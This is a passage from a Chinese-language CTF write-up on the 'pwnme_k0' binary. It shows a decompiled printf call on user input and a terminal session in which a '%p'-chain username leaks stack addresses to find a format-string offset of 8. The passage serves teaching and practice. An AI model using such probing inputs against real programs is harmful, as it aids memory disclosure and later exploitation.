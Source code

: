 		printf(&formata, "Welc0me to sangebaimao!n");

		return printf((const char *)&a9 + 4);

	}

这个&a9+4是前面输入的密码的位置

先确定下偏移的位置，因为是64位的程序，所以前6个参数都是在寄存器里的，从第7个开始才是在栈上

	~/Desktop$ ./pwnme_k0

	**********************************************

	* 											 *

	*Welcome to sangebaimao,Pwnn me and have fun!*

	* 											 *

	**********************************************

	Register Account first!

	Input your username(max lenth:20):

	aaaaaaaa,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p

	Input your password(max lenth:20):

	Register Success!!

	1.Sh0w Account Infomation!

	2.Ed1t Account Inf0mation!

	3.QUit sangebaimao:(

	>error options

	1.Sh0w Account Infomation!

	2.Ed1t Account Inf0mation!

	3.QUit sangebaimao:(

	>1

	Welc0me to sangebaimao!

	aaaaaaaa,0x4010c3,0x1a,0x7fcb4901d154,0x7ffc959a4929,(nil),0x7ffc959a4940,0x400d74,0x6161616161616161,0x252c70252c70252c,0x2c70252c

	@1.Sh0w Account Infomation!0x4d,0x7ffc959a4940,%M

	2.Ed1t Account Inf0mation!

	3.QUit sangebaimao:(

	>

数一下，在第八个位置，所以偏移的位置是8。

也可以在gdb上面确定位置，断点下在printf，看栈里面的数
